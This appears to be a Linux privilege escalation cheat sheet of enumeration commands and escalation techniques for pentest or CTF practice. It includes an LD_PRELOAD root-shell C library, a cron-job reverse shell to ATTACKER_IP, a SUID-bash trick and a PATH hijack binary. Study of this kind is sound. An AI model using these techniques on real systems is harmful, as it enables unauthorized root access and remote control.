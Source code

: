 # Linux Privilege Escalation

## Enumeration
- [ ] `hostname`
- [ ] `uname -a`
- [ ] `.bash_history`
- [ ] Information about the processes and the target: `cat /proc/version` `/etc/issue` `/etc/os-release` 
- [ ] `echo $PATH`
- [ ] CPU type/version `lscpu`
- [ ] login shells exits `cat /etc/shells`
- [ ] All processes running on the target: `ps -A` , Process tree: `ps axjf`
- [ ] Environment variables `env`
- [ ] List all commands your user can run using sudo `sudo -l`
- [ ] mounted and unmounted drives `cat /etc/fstab`
- [ ] `lsblk` enumerate information about block devices on the system
- [ ] `lpstat` found information about any printers in the system
- [ ] `ls` `id` 
- [ ] Discover users on the system: `cat /etc/passwd` >> to beautify output `cat /etc/passwd | cut -d ":" -f 1`
- [ ] `cat /etc/group`
- [ ] `df -h` mounted file systems
- [ ] Unmounted File Systems `cat /etc/fstab | grep -v "#" | column -t`
- [ ] Show all hidden files `find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null`
- [ ] Show all hidden directories `find / -type d -name ".*" -ls 2>/dev/null`
- [ ] Temp files `ls -l /tmp /var/tmp /dev/shm`
- [ ] Search about pattern in files `grep -r -l 'your-pattern-here' / 2>/dev/null`
- [ ] `history`

- Network 
- [ ] `ifconfig`
- [ ] `ip route`
- [ ] `ls -l ~/.ssh`
- [ ] `cat /etc/resolv.conf`
- Netstat Commands
    - `netstat -a`: Shows all listening ports and established connections.
    - `netstat -l`: list ports in "listening" mode. 
    - `netstat -s`: list network usage statistics by protocol.
    - `netstat -tp`: list connections with the service name and PID information.
    - `netstat -i`: Shows interface statistics. 
    - `netstat -ano` could be broken down as follows:
        -a: Display all sockets
        -n: Do not resolve names
        -o: Display timers
- find Command
    - `find . -name flag1.txt` search about flag1.txt in the current directory
    - `find / -type d -name config` find the directory named config under "/"
    - `find / -type f -perm 0777` find files with the 777 permissions (files readable, writable, and executable by all users)
    - `find / -perm a=x` find executable files
    - `find /home -user frank` find all files for user "frank" under "/home"
    - `find / -mtime 10` find files that were modified in the last 10 days
    - `find / -atime 10` find files that were accessed in the last 10 day
    - `find / -cmin -60` find files changed within the last hour (60 minutes)
    - `find / -amin -60` find files accesses within the last hour (60 minutes)
    - `find / -size 50M` find files with a 50 MB size
    - `find / -name gcc*`
- Folders and files that can be written to or executed from:
    - `find / -writable -type d 2>/dev/null` : Find world-writeable folders
    - `find / -perm -222 -type d 2>/dev/null` : Find world-writeable folders
    - `find / -perm -o w -type d 2>/dev/null` : Find world-writeable folders
    - `find / -perm -u=s -type f 2>/dev/null` : Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. 
## Automated Tools 
-   LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
-   LinEnum: https://github.com/rebootuser/LinEnum
-   LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
-   Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
-   Linux Priv Checker: https://github.com/linted/linuxprivchecker 

## SUDO 
- The sudo command, by default, allows you to run a program with root privileges.
- Any user can check its current situation related to root privileges using the `sudo -l` command. 
### Leverage LD_PRELOAD
- LD_PRELOAD is a function that allows any program to use shared libraries.
- If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run.
- The steps of this privilege escalation vector can be summarized as follows:

    1. Check for LD_PRELOAD (with the env_keep option)
    2. Write a simple C code compiled as a share object (.so extension) file
    3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
- We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters:

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

- We can now use this shared object file when launching any program our user can run with sudo. In our case ,Apache2, find, or almost any of the programs we can run with sudo can be used.

- We need to run the program by specifying the LD_PRELOAD option, as follows:

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

## SUID

- `find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
 
 ## Capabilities
 - `getcap -r / 2>/dev/null`

## Cron Jobs
- `cat /etc/crontab`
- [ ] Make a reverse shell
In cronjobfile.sh
```
#!/bin/bash
bash -i >& /dev/tcp/ATTACKER_IP/LISTENER_PORT 0>&1
```
- [ ] we just need to give suid permission to /bin/bash, then we can run it and become root. We will use the chmod command to give suid permission.
- In cronjobfile.sh
```
#!/bin/bash
chmod u+s /bin/bash #u+s is used give SUID permission
```
- `chmod 777 cronjobfile.sh`
- `/bin/bash -p`

## PATH

- Steps:
1. Make file path_exp.c
```
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0); 
  system("love");
}
```
2. We compile this into an executable and set the SUID bit. 
    - `gcc path_exp.c -o path -w`
    - `chmod u+s path`
3. - `echo $PATH`
- A simple search for writable folders can done using the  `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
- The folder that will be easier to write to is probably /tmp. In almost cases; because /tmp is not present in PATH so we will need to add it. the `export PATH=/tmp:$PATH` command accomplishes this.
4. 
- `cd /tmp`
- `echo "/bin/bash" > love`
- `chmod 777 love`
- `./path`
## Exploitation
- [ ] Kernal Exploits (preferred to leave it to t"he end)
- [ ] SUDO
- [ ] SUID
- [ ] Capabilities
- [ ] Cron Jobs
- [ ] 




# Resources 
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation
- https://gtfobins.github.io/
